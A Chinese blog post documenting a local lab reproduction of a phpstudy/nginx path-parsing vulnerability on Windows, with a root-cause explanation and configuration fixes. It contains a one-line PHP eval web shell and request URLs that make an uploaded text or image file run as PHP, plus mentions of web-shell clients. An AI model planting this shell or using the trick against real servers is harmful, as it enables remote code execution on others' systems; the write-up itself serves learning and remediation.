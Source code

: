 ```yaml
---
title: phpstudy_nginx解析漏洞验证
tags:
  - phpstudy
categories:
  - 安全
copyright: true
permalink: phpstudy_nginx解析漏洞验证
top: 0
password: 
abstract: 输入密码继续阅读.
message: 欢迎来到我的博客，输入密码继续阅读.
date: 2020-09-03 21:09:05
---
```


## 一、环境搭建

去官网下载phpstudy版本8.1.0.7，安装过程中不能使用中文作为目录，然后安装nginx与php，运行网站。

<!--more-->
## 二、验证漏洞

上传文件 info.txt到www目录，保证能够解析
```
<?php 
@eval($_GET["pass"]);
?>
```
访问127.0.0.1/info.txt看到文件存在
访问127.0.0.1/info.txt/.php?pass=phpinfo(); 看到info信息
访问127.0.0.1/info.txt/.php 连接菜刀
或上传冰蝎码.
访问127.0.0.1/shell.png/.php?pass=phpinfo();

## 三、原理分析

这个漏洞是nginx的配置，windows存在这个问题，linux不存在这个问题

1.由于nginx.conf的如下配置导致nginx把以'.php'结尾的文件交给fastcgi处理,为此可以构造http://ip/uploadfiles/test.png/.php (url结尾不一定是'.php',任何服务器端不存在的php文件均可,比如'a.php'),其中test.png是我们上传的包含PHP代码的照片文件。

2、但是fastcgi在处理'.php'文件时发现文件并不存在,这时php.ini配置文件中cgi.fix_pathinfo=1 发挥作用,这项配置用于修复路径,如果当前路径不存在则采用上层路径。为此这里交由fastcgi处理的文件就变成了'/test.png’。

3、最重要的一点是php-fpm.conf中的security.limit_extensions配置项限制了fastcgi解析文件的类型(即指定什么类型的文件当做代码解析),此项设置为空的时候才允许fastcgi将'.png'等文件当做代码解析。
在nginx默认配置中，有一个解析php的路由

```
       #location ~ \.php$ {
        #       include snippets/fastcgi-php.conf;
        #
        #       # With php7.0-cgi alone:
        #       fastcgi_pass 127.0.0.1:9000;
        #       # With php7.0-fpm:
        #       fastcgi_pass unix:/run/php/php7.0-fpm.sock;
        #}
```
## 四、修复
1、将php.ini文件中的cgi.fix_pathinfo的值设置为0,这样php再解析1.php/1.jpg这样的目录时,只要1.jpg不存在就会显示404页面


2、php-fpm.conf中的security.limit_extensions后面的值设置为.php
## 参考
http://wechat.doonsec.com/article/?id=1632d9b3b7f94ead41c575e12b1a3aff
